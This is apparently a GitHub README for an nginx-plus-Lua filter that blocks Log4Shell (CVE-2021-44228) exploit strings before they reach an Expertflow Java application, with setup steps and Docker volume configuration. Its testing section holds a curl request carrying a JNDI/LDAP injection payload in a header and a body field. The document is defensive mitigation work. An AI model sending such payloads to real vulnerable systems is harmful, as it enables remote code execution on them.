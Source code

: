 
# nginx-lua
This repository contains the configuration for the mitigation of Log4j vulnerabilities in the JAVA application. Nginx with the help of lua module will prevent the attacker to access vulnerable JAVA application


## Description
This implementation will provide a quick fix for the vulnerability [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). Expertflow latest release is not vulnerable to this vulnerability and we recommend you to update to the latest release. However, this is also one way to mitigate the risk of remote code execution with the help of Nginx + lua module. After this implementation, each request will be inspected by Nginx and if the request has exploit to remotely execute the code in either its header or in the body, the request will be dropped and won't make its way to the internal Expertflow application. 


## Requirements
1. Expertflow has built Debian-based Nginx image with lua module build-in. Just pull the docker image of nginx from the Expertflow Dockerhub registry.
2. Update the `nginx.conf` file
3. Clone and mount the `nginx-lua.conf` `lua.conf`, and `cve_2021_44228.lua` files to your nginx container.




## Implementation Steps
1. Clone and copy the `nginx-lua.conf`, `lua.conf`, and `cve_2021_44228.lua` ,  in the `/path/to/release/docker/nginx/`
2. Update the `/path/to/release/docker/nginx/https-singleton.conf` file. Add the following code in `https-singleton.conf`
```
############## lua conf################
    set $captured_request_headers "";
    set $captured_request_body "";
    set $cve_2021_44228_log "";
    rewrite_by_lua_block {
        cve_2021_44228.block_cve_2021_44228()

 }
###########################################
````
3. Now we need to update the `/path/to/release/active/docker-compose-service-gateway.yml` file. 
- Update the `image:` entry with the `expertflow/nginx-lua:debian-1.21.4`
- Navigate to the `volume:` section and mount these files to docker container by adding the following code:
```
    volumes:
      - /path/to/release/docker/nginx/https-singleton.conf:/etc/nginx/conf.d/https.conf
      - /path/to/release/docker/nginx/nginx-lua.conf:/etc/nginx/nginx.conf
      - /path/to/release/docker/nginx/cve_2021_44228.lua:/usr/local/lib/lua/cve_2021_44228.lua
      - /path/to/release/docker/nginx/lua.conf:/etc/nginx/conf.d/lua.conf
```
4. Now just remove the nginx container and start it again. 

### Testing
We can now test our implementation whether it's blocking the exploit in the request or not. To test it, send the following request with the exploit present in the header and body with `curl`. Just replace the string `<FQDN>` with your FQDN.
```
curl --location --request POST 'https://<FQDN>/ccm/360notifications' \
--header 'efheader: ${jndi:ldap://8.8.4.4:1111/RCE/Command}' \
--header 'Content-Type: application/json' \
--data '{
    "messages": [{
        "from": "333",
        "contacts": "Jon Doe",
        "text": {
            "body": "${jndi:ldap://8.8.4.4:1111/RCE/Command}"
        }
    }]
}'
```
This will show you the following response which indicates that the configurations are working in perfect manner.
```
 Expertflow Log4J Forbidden
```
